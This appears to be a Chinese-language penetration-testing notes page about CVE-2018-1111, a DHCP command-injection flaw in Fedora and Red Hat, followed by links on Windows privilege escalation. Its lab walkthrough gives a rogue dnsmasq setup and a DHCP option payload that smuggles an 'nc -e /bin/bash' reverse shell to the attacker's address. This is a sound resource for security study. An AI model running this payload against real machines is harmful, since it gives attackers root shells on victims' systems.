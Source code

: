     Fedora 是由 Fedora 项目社区开发、美国红帽（Red Hat）公司赞助的一套基于 Linux 的操作系统。DHCP packages 是其中的一个动态主机配置协议软件包。

    Fedora 28 及之前版本、Red Hat Enterprise Linux 6 和 7 中的 DHCP 包的 NetworkManager integration 脚本存在命令注入漏洞。本地攻击者可通过伪造 DHCP 响应利用该漏洞在系统以 root 权限执行任意命令。

- 文章
    - [CVE-2018-1111 复现环境搭建与 dhcp 命令注入](https://www.freebuf.com/articles/web/191884.html)
    - [DHCP 客户端脚本代码执行漏洞分析 (CVE-2018-1111) ](https://xz.aliyun.com/t/2455)

- POC | Payload | exp
    - [knqyf263/CVE-2018-1111](https://github.com/knqyf263/CVE-2018-1111)
    - [kkirsche/CVE-2018-1111](https://github.com/kkirsche/CVE-2018-1111)

- 本地利用方法
    ```
    attacker: kali linux 2018 x64 192.168.71.5
    victim: Centos 7 x64 192.168.71.10
    ```
    ```vim
    vim dnsmasq.conf
    bind-interfaces
    interface=eth0
    except-interface=lo
    dhcp-range=192.168.71.10,192.168.71.20,12h
    dhcp-option=3,192.168.71.5
    dhcp-option=6,192.168.71.5
    log-queries
    log-facility=/var/log/dnsmasq.log
    ```
    ```
    dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash192.168.71.5 6666 #"
    nc -l -p 6666 -v
    ```
    重启 CentOS 的网络服务,然后 shell 就反弹回来了

---

# Windows

**相关资源**
- [WindowsExploits/Exploits](https://github.com/WindowsExploits/Exploits)- Windows Exploits
- [Ascotbe/Kernelhub](https://github.com/Ascotbe/Kernelhub)

---

## 系统漏洞提权

**相关文章**
- [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
- [Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [猫鼠游戏：Windows内核提权样本狩猎思路分享](https://mp.weixin.qq.com/s/j72DUDKS8MX4iA10WBs2XA)
